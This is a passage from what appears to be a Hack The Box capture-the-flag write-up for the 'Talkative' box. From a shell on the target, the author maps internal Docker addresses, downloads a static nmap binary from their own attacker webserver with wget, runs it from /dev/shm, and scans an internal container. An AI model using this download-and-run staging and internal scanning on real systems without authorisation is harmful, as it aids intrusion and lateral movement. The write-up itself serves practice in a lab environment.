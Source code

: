 
  * 172.18.0.2 is the jamovi container that I’ve already had a shell in.
  * 172.17.0.3 is getting port 3000, so that’s likely the Rocket Chat instance.
  * 172.17.0.4-19 are each getting a forward from a listening on 172.17.0.1, which is this host. This is a technique that HTB employs sometimes to keep players from spoiling and/or breaking the box for other players. I suspect it’s running 16 copies of the main Bolt website, and then using the player’s IP address and IP tables to load balance across those. That allows me to mess with or even completely take down Bolt without messing up other players.

Interestingly, there is a 172.17.0.2, it’s just not having any ports forwarded
to it:

    
    
    saul@talkative:~$ ping -c 1 172.17.0.2
    PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
    64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.060 ms
    
    --- 172.17.0.2 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 0.060/0.060/0.060/0.000 ms
    

#### 172.17.0.2

I’ll host a [statically compiled](https://github.com/andrew-d/static-
binaries/blob/master/binaries/linux/x86_64/nmap) `nmap` on my webserver and
upload it to Talkative:

    
    
    saul@talkative:/dev/shm$ wget 10.10.14.6/nmap
    --2022-08-22 20:15:21--  http://10.10.14.6/nmap
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 5944464 (5.7M) [application/octet-stream]
    Saving to: ‘nmap’
    
    nmap                100%[===================>]   5.67M  6.41MB/s    in 0.9s    
    
    2022-08-22 20:15:22 (6.41 MB/s) - ‘nmap’ saved [5944464/5944464]
    
    saul@talkative:/dev/shm$ chmod +x nmap
    

Running with the default top 1000 ports finds nothing:

    
    
    saul@talkative:/dev/shm$ ./nmap 172.17.0.2
    
    Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2022-08-22 20:15 UTC
    Unable to find nmap-services!  Resorting to /etc/services
    Cannot find nmap-payloads. UDP payloads are disabled.
    Nmap scan report for 172.17.0.2
    Host is up (0.00013s latency).
    All 1182 scanned ports on 172.17.0.2 are closed
    
    Nmap done: 1 IP address (1 host up) scanned in 12.46 seconds
    
